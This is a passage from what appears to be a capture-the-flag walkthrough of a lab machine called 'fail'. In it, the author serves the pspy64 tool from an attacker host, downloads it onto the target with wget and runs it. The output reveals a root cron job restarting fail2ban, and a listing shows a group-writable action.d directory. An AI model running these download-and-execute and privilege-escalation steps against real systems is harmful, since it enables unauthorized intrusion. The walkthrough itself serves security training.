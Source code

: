 ```
kali@kali:~$ sudo python3 -m http.server 80                                     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Next, we'll download it to the target, give it executable permissions, and run it.

```
fox@fail:~$ wget http://192.168.118.5/pspy64
--2021-01-19 09:33:17--  http://192.168.118.5/pspy64
Connecting to 192.168.118.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                        100%[=================================================================================================>]   2.94M   667KB/s    in 4.5s    

2021-01-19 09:33:22 (673 KB/s) - ‘pspy64’ saved [3078592/3078592]

fox@fail:~$ 
fox@fail:~$ chmod +x pspy64
fox@fail:~$
fox@fail:~$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
...
2021/01/19 09:35:01 CMD: UID=0    PID=1903   | /bin/sh -c /usr/bin/systemctl restart fail2ban 
2021/01/19 09:35:01 CMD: UID=0    PID=1904   | /sbin/init 
2021/01/19 09:35:02 CMD: UID=0    PID=1905   | /sbin/init 
2021/01/19 09:35:02 CMD: UID=0    PID=1906   | /sbin/init 
2021/01/19 09:35:02 CMD: UID=0    PID=1908   | /usr/bin/python3 /usr/bin/fail2ban-server -xf start 
2021/01/19 09:35:02 CMD: UID=0    PID=1909   | /usr/bin/python3 /usr/bin/fail2ban-server -xf start 
2021/01/19 09:36:01 CMD: UID=0    PID=1912   | /usr/sbin/CRON -f 
2021/01/19 09:36:01 CMD: UID=0    PID=1913   | /usr/sbin/CRON -f 
2021/01/19 09:36:01 CMD: UID=0    PID=1914   | /bin/sh -c /usr/bin/systemctl restart fail2ban
```

The process monitor shows that a cron job runs every minute as root (`UID=0`) and uses `systemctl` to restart `fail2ban`.

### File2Ban Enumeration

We discover **README.fox** inside _/etc/file2ban_.

```
fox@fail:~$ ls -l /etc/fail2ban/
total 64
drwxrwxr-x 2 root fail2ban  4096 Dec  3 15:22 action.d
-rw-r--r-- 1 root root      2334 Jan 18  2018 fail2ban.conf
drwxr-xr-x 2 root root      4096 Sep 23  2018 fail2ban.d
drwxr-xr-x 3 root root      4096 Dec  3 15:22 filter.d
-rw-r--r-- 1 root root     22910 Nov 19 04:12 jail.conf
drwxr-xr-x 2 root root      4096 Dec  3 15:22 jail.d
-rw-r--r-- 1 root root       645 Jan 18  2018 paths-arch.conf
-rw-r--r-- 1 root root      2827 Jan 18  2018 paths-common.conf
-rw-r--r-- 1 root root       573 Jan 18  2018 paths-debian.conf
-rw-r--r-- 1 root root       738 Jan 18  2018 paths-opensuse.conf
-rw-r--r-- 1 root root        87 Dec  3 15:22 README.fox
```
